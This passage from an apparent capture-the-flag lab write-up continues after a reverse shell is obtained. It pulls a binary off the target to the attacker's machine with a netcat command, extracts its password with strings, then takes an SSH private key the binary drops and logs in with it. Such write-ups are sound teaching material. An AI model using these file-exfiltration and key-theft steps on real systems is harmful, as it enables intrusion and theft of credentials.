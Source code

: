 - After getting a reverse shell, there will be a file named `runme`. If you use cat on it, it will just output bunch of giberrish so run that binary.

  ```
  # ./runme
  Please enter yout password: sardinethecat
  Access Denied
  # ls
  runme
  ```
  
- Since we don't know the password, let's move that binary to our local machine and try to extract the password. We will do that with netcat as well.

  ```
  On local machine use: nc -lvnp PORT > runme
  On target machine use: nc [YOUR-THM-IP] PORT < /home/catlover/runme

  ls
  note.txt  runme
  ```

- If you did it correctly you should see both files that we got from target machine in your directory. Use strings on this binary in order to get password.

  ```
  [SNIP!]
  []A\A]A^A_
  rebecca
  Please enter yout password: 
  Welcome, catlover! SSH key transfer queued! 
  touch /tmp/gibmethesshkey
  Access Denied
  :*3$"
  [SNIP!]
  ```

- Awesome! Now we have password, and this binary will also create public SSH key in the directory `/tmp/gibmethesshkey` after being executed properly.

- Move back to target machine, run the binary and put newly found password.

  ```
  # ./runme
  Please enter yout password: rebecca
  Welcome, catlover! SSH key transfer queued! 
  ```

- So here I spent some time looking for that actual key since it is not in `/tmp/gibmethesshkey`, it's actually in `/home/catlover`. Copy/paste the key to your machine and use it to connect with SSH.

  ```
  # ls -al
  total 32
  drwxr-xr-x 2 0 0  4096 May 22 21:06 .
  drwxr-xr-x 3 0 0  4096 Apr  2  2021 ..
  -rw-r--r-- 1 0 0  1675 May 22 21:06 id_rsa
  -rwxr-xr-x 1 0 0 18856 Apr  3  2021 runme
  
  # cat id_rsa
  -----BEGIN RSA PRIVATE KEY-----
  [SNIP!]
  -----END RSA PRIVATE KEY-----
  
  chmod 600 id_rsa
  
  ssh -i id_rsa catlover@10.10.167.191
  ```

---
